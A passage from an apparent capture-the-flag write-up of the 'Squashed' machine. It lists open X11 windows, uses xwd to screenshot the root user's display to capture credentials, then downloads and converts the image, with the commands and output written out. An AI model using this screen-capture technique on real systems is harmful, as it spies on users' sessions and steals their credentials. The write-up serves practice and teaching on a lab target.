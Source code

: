 ```bash
     0x1000001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10
     0xc00001 "ibus-extension-gtk3": ("ibus-extension-gtk3" "Ibus-extension-gtk3")  10x10+10+10  +10+10
     0xa00003 "ibus-xim": ()  1x1+0+0  +0+0
        1 child:
        0xa00004 (has no name): ()  1x1+-1+-1  +-1+-1
     0xa00001 "ibus-x11": ("ibus-x11" "Ibus-x11")  10x10+10+10  +10+10
     0x800011 (has no name): ()  1x1+-100+-100  +-100+-100
     0x80000f (has no name): ()  1x1+-1+-1  +-1+-1
     0x800009 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800007 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800006 "GNOME Shell": ()  1x1+-100+-100  +-100+-100
     0x800001 "gnome-shell": ("gnome-shell" "Gnome-shell")  10x10+10+10  +10+10
     0x600008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800010 "mutter guard window": ()  800x600+0+0  +0+0
```

As we can see the root user is connected and has all these windows open. According to the process mentioned in [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#verfy-connection), we can see that we need to run a command to screenshot the credentials of the root user

The first command did not work because of the fact that we are inside the machine so the I.P was not needed at this point.

```bash
alex@squashed:~$ xwd -root -screen -silent -display 10.10.11.191:0 > screenshot.xwd
xwd:  unable to open display '10.10.11.191:0'
alex@squashed:~$ xwd -root -screen -silent -display :0 > screenshot.xwd
alex@squashed:~$ file screenshot.xwd 
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
```

Few things left to do, for those who don’t have it installed, convert is a program member of the [ImageMagick](https://imagemagick.org/script/download.php) suite of tools. Now, I will serve the file to my machine and convert it to a <mark style="color:yellow;">png</mark> or <mark style="color:yellow;">jpg</mark> file the choice is yours, then let’s open the converted file.

```bash
Connecting to 10.10.11.191:8080... connected.                                                               [17/64]
HTTP request sent, awaiting response... 200 OK                                                                     
Length: 1923179 (1.8M) [image/x-xwindowdump]                                                                       
Saving to: ‘screenshot.xwd’                                                                                        
                                                                                                                   
screenshot.xwd              100%[=============================================>]   1.83M  1.16MB/s    in 1.6s     
                                                                                                                   
2022-12-02 21:19:45 (1.16 MB/s) - ‘screenshot.xwd’ saved [1923179/1923179]                                         
                                                                                                                   
                                                                                                                   
d0n in ~/Squashed/Intell/Remote-Files on ☁️                                                                         
➜  convert screenshot.xwd screenshot.jpg
```
